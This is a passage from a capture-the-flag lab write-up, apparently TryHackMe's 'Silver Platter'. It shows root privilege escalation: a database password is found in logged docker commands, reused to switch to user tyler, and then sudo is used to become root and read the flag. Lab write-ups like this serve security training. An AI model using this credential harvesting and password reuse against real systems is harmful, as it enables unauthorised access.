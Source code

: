 Searching through wee can see something interesting,

`USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3`

This means the root user passed the password on the command line for postgrepsql database for silverpeas : **\_Zd_zx7N823/**

If we cd to home we see another name : tyler

If we switch to root we can't use this password so we try for tyler :

```
tim@silver-platter:/var/log$ su tyler
Password: _Zd_zx7N823/
tyler@silver-platter:/var/log$ 

```

And we have it, now we run id :

```
tyler@silver-platter:/$ id

   uid=1000(tyler) gid=1000(tyler) 
   groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
```

So we are sudoers we can sudo su :

```
tyler@silver-platter:/$ sudo su
[sudo] password for tyler: 

root@silver-platter:/# cd root
root@silver-platter:~# ls
root.txt  snap  start_docker_containers.sh
root@silver-platter:~# cat root.txt
THM{098f6bcd4621d373cade4e832627b4f6}

```

Pwned !!
